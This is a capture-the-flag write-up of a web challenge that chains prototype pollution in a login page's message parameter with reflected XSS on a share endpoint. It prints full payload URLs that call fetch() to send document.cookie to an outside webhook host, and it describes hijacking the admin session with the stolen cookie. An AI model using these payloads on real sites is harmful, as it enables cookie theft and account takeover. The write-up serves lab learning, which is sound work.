

This challenge doesn't contain source code. The description provides credentials `partner@rockyou.xyz:partn3r123` for login and mentions that we can submit non-security issues via `/report` for admin support.

The challenge provides two ports. On the first port, we see:

On the second port:

.png)

After logging in with the provided credentials, we see the following interface:

.png)

This appears to be a static site where the only functionality is "Sharing data," which generates a URL.

.png)

Since we have an Issue tracker, the attack vector likely involves XSS.

When visiting the generated URL, it reflects what is placed after the `type` and `data` parameters:

.png)

I couldn't find the injection point until I closed my session and experimented with the login form. I discovered that the `message` parameter value is reflected as a message on the page.

.png)

However, when setting custom text, it didn't get displayed. Reviewing the source code, I found the following process:

1. JavaScript gets the message from URL parameters
2. Converts it into an object using `JSON.parse()`
3. Uses it as the second parameter for the `mergeObjects` function
4. Calls the `validateMessage()` function
5. If validated, the message gets displayed; otherwise, an error is shown

.png)

The `mergeObjects()` function merges two objects - the `defaultConfig` and `userConfig` (read from the URL). It lacks proper validation, making it vulnerable to prototype pollution.

Looking at the configuration object, it contains two keys: `JS_FILES` and `ALLOWED_MESSAGES`. The code checks if `JS_FILES` are set, and if not, it calls `retrieveSettings`. Finally, it creates a script tag for every file in the `JS_FILES` object.

.png)

The attack vector is straightforward:

1. Modify the `/partner/share` URL to execute XSS when called
2. Use prototype pollution to import our malicious URL
3. Send the final URL to the admin to obtain their cookie

The first URL for XSS:
`http://94.237.50.221:38149/partner/share?type=\"}fetch('URL?'.concat(document.cookie));//`

The second URL using prototype pollution:
`http://94.237.50.221:38149/login?message={"__proto__":{"JS_FILES":["/partner/share?type=\"}fetch('https://webhook.site/0235f878-611f-439e-a6c0-d686eccf62c3?'.concat(document.cookie))//"]}}`

Replace `URL` with your webhook URL to receive the request and obtain the admin cookie. Also, change the IP to `127.0.0.1` to match the regex validation.

.png)

Submit this URL via the report functionality and wait for the admin to visit it.

.png)

After replacing our cookie with the admin's cookie and navigating to `/admin/users/`, we obtain the flag:

.png)